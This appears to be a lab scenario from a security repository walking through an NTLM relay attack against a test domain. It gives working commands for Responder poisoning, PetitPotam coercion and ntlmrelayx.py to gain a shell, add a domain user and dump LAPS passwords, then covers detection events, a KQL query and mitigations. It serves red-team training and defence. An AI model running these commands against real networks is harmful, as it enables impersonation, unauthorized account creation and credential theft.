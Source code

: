 # Attack Scenario: NTLM Relay Attack
NTLM Relay allows an attacker to intercept and relay authentication attempts to another server, impersonating the original user. This enables command execution or access to services as the victim account — without needing to crack the hash.

## MITRE ATT&CK Techniques:

T1557.001 – Adversary-in-the-Middle: LLMNR/NBT-NS Spoofing
T1557.002 – SMB/NTLM Relay

# Lab Environment
- **Attacker system:** attacker-vm (Linux or Windows)
- **Domain Controller:** dc01.internal.lab
- **Victim host:** Any domain-joined machine with SMB traffic
- **Relayed target:** Server with exposed SMB/HTTP and unmitigated NTLM relay vector
- **Tools:** Impacket, Responder, ntlmrelayx.py, mitm6, PetitPotam

## Preconditions:

At least one domain device is susceptible to LLMNR/NBT-NS poisoning, or

Attacker can coerce authentication (e.g., via PetitPotam)

## Objectives
Capture NTLM authentication attempts

Relay them to a target accepting NTLM

Gain shell access or perform privileged operations without credentials
## Execution Steps
### 1. Prepare Responder (optional)
For environments with LLMNR/NetBIOS enabled:

```Responder -I eth0 -dvP```
Or disable Responder and use mitm6/PetitPotam for modern relay setups.

### 2. Coerce Authentication (if needed)
Use PetitPotam:

```python3 petitpotam.py -u <user> -p <pass> -d internal.lab <target-ip>```

Alternatively, trigger SMB connection from a misconfigured printer or GPO.

### 3. Run NTLMRelayX
To gain a shell:

```ntlmrelayx.py -t smb://target.internal.lab -smb2support --no-wcf-server```
To add a user:

```ntlmrelayx.py -t ldap://dc01.internal.lab --add-user testuser --add-computer testpc$```
To dump SAM or LAPS:

```ntlmrelayx.py -t ldap://dc01.internal.lab --dump-laps```

### 4. Confirm Access
For SMB shell:

```smbclient.py INTERNAL/testuser@target.internal.lab```
Or confirm the newly added user in AD.

## Detection Guidance
### Logs and Events
Event ID 4624: Logons with unexpected accounts or source IPs

4742: Computer object added or modified

### Defender for Identity: NTLM relay detection

Microsoft 365 Defender: “Suspicious SMB client behavior”

### KQL Example – Unusual Auth to Domain Controller
```
SecurityEvent
| where EventID == 4624
| where TargetUserName != AccountName
| where LogonProcessName == "NtLmSsp"
| where AccountType == "User"
| summarize count() by Computer, Account, IpAddress, bin(TimeGenerated, 1h)
```
## Mitigations
Disable NTLM where possible (Network security: Restrict NTLM)

Enable SMB signing and LDAP signing/channel binding

Monitor for LLMNR, NBNS, and unexpected name resolution traffic

Restrict local admin rights across workstations and servers

## References
https://github.com/SecureAuthCorp/impacket

https://dirkjanm.io/ntlm-relaying-to-ldap-with-ldaps/

https://attack.mitre.org/techniques/T1557/002/

https://book.hacktricks.xyz/windows-hardening/windows-local-ntlm-relay

## Navigation
[Back to Lab Index:](../../README.md)
[Related: PetitPotam Coercion](./petitpotam)